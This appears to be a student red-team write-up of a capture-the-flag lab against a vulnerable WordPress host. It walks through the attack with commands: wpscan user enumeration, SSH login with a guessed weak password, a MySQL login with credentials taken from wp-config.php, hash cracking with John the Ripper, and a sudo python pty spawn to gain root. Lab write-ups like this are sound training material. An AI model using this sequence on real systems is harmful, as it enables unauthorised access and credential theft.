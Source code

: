 # Red Team: Summary of Operations

## Table of Contents
- [Exposed Services](#Exposed-Services)
- [Critical Vulnerabilities](#Critical-Vulnerabilities)
- [Exploitation](#Exploitation)

## Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

`$ nmap -sV 192.168.1.110`

- <img src="/Images/NMAP-scan.png">

This scan identifies the services below as potential points of entry:
**Target 1**
1. Port 22/TCP 	Open 	SSH
2. Port 80/TCP 	Open 	HTTP
3. Port 111/TCP 	Open 	rcpbind
4. Port 139/TCP 	Open 	netbios-ssn
5. Port 445/TCP 	Open 	netbios-ssn


## Critical Vulnerabilities

The following vulnerabilities were identified on each target:
- Target 1
  1. <ins>**PORT ENUMERATION**</ins> (Severity: MEDIUM)
	- Target1 is open and responsive to ping requests allow port enumeration
  2. <ins>**WEAK PASSWORD POLICY**</ins> (Severity HIGH)
	- User 'Michael' was able to use their username as password, no numerical or spacial characters were required.
	- OpenSSH was not configured to require further authentication beyond a simple password
  3. <ins>**MISCONFIGURED WEBSITE**</ins> (Severity: HIGH)
	- Sensitive data was found within public-facing source code. In addition password information saved within the MySQL database was unsalted, resulting in easily obtained user credentials.
  3. <ins>**PYTHON ESCALATION**</ins> (Severity: MEDIUM-HIGH)
	- User Steven's `sudo` privileges were misconfigured allowing for the leverage of a known python script exploit


## Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
    1. `flag1.txt`: *b9bbcb33ellb80be759c4e844862482d*
    - **Exploit Used**
    	1. WPScan to enumerate users of the Target 1 WordPress site
    - Command: 
        - `$ wpscan --url http://192.168.1.110/wordpress --enumerate u`.


<img src="/Images/wpscan-users.png">
<img src="/Images/Flag1.png">

    2. Targeting user Michael *(Weak user credentials // lack of robust password policy)*
    	- Brief manual Brute Force attack to guess Michael’s password
    	- User password was found upon attempting most basic username duplication as password credential.
    	- Password: *michael*
    3. SSH in as Michael traversing through directories and files.
    		- Flag 1 found in var/www/html folder at root in service.html in an HTML comment below the footer.
    		- Commands:
        		- `ssh michael@192.168.1.110`
        		- `pw: michael`
        		- `cd /var/www/html`
        		- `ls -l`
        		- `nano service.html`
  -  **flag2.txt**: *fc3fd58dcdad9ab23faca6e9a3e581c*
    - **Exploit Used**
      - Same SSH/Directory Traversal exploit for user Michael leveraged in the 1st exploit
      - Simple directory exploration found the 'flag2.txt' file plainly visible in the /var/www/ directory.
      - `cd /var/www/`
      - `ls -l`
      - `cat flag2.txt`
<img src="/Images/flag2.png">

- **Flag3: afc01ab56b50591e7dccf93122770cd2**
- Exploit Used:
    - Viewing the wp-config.php file *(unrestricted file permissions)* revealed both username and password for MySQL database access.
    - Captured credentials were used to access and investigate the database.
    - Flag 3 was found in wp_posts table in the wordpress database.
        - Commands:
            - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
            - `show databases;`
            - `use wordpress;` 
            - `show tables;`
            - `select * from wp_posts;`

<img src="/Images/flag3.png">


- **Flag4: 715dea6c055b9fe3337544932f2941ce**
- Exploit Used:
    - Unsalted password hash and the use of privilege escalation with Python.
    - Capturing Flag 4: Retrieve user credentials from database, crack password hash with John the Ripper and use Python to gain root privileges.
        - Once having gained access to the database credentials as Michael from the wp-config.php file, username and password hashes were exported from the MySQL database. 
        - These user credentials are stored in the wp_users table of the wordpress database. The usernames and password hashes were copied/saved to the Kali machine in a file called wp_hashes.txt.
            - Commands:
                - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
                - `show databases;`
                - `use wordpress;` 
                - `show tables;`
                - `select * from wp_users;`

        - <img src="/Images/mysql-users.png">

        - On the Kali local machine the wp_hashes.txt was run against John the Ripper to crack the hashes. 
            - Command:
                - `john wp_hashes.txt`

        - <img src="/Images/john-show.png">

      	  	- Once Steven’s password hash was cracked, the next step was to open an SSH shell as Steven. Since Steven's account had `sudo` privileges a python script vulnerability was leveraged to gain root access.
           		 - Commands: 
               			 - `ssh steven@192.168.1.110`
               			 - `pw:pink84`
               			 - `sudo -l`
               			 - `sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’`
                			- `cd /root`
               			 - `ls`
               			 - `cat flag4.txt`

		- Python Escalate
			- <img src="/Images/python-escalate.png">

<img src="/Images/flag4.png">